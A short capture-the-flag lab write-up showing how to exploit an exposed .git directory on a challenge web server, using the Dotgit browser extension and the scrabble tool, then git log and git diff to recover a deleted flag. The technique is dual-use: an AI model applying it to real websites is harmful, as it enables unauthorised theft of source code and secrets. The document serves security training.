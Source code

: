 ```yaml
---
title: Simple Web 0x01(Lab - `gitleak`)
tags: [CTF, Web, NTUSTWS]

---
```


# Simple Web 0x01(Lab - `gitleak`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9000/

## Exploit - gitleak + basic Git command
1. Use the extension of Firefox(or Google), `Dotgit`, to check if the website actually has `git leak problem`
![](https://i.imgur.com/ZtMbj9z.png)

2.  denny0223/scrabble
To use scrabble tool to leak information
    ```bash!
    $ git clone https://github.com/denny0223/scrabble.git
    $ cd scrabble
    $ sudo ./scrabble http://h4ck3r.quest:9000/
    ```
3. Still no flag
There's `flag.php` but still no flag in there. `HEAD` said `HEAD is now at a0228bd Remove flag.`
Thus, we can look up the history by the command below.
    ```bash!
    $ git log --stat a0228bd
    commit a0228bd6ff968f3eca017125a5434b517ad2a83a (HEAD -> master)
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:46 2022 +0800

        Remove flag.

     flag.php | 2 +-
     1 file changed, 1 insertion(+), 1 deletion(-)

    commit 6cfe38db75ec90126f53088ea87c286c83c1bfb3
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:15 2022 +0800

        Init

     flag.php  | 5 +++++
     index.php | 1 +
     2 files changed, 6 insertions(+)
    ```
4. Check the difference of commit version
    ```bash!
    $ git diff HEAD <commit-id>
    diff --git a/flag.php b/flag.php
    index d1f8785..5b6cf79 100644
    --- a/flag.php
    +++ b/flag.php
    @@ -1,5 +1,5 @@
     <?php
    -// No flag for you!
- [ ]     +$FLAG = "FLAG{gitleak_is_fun}";
     ?>

     Flag is in the source code.
    \ No newline at end of file
    ```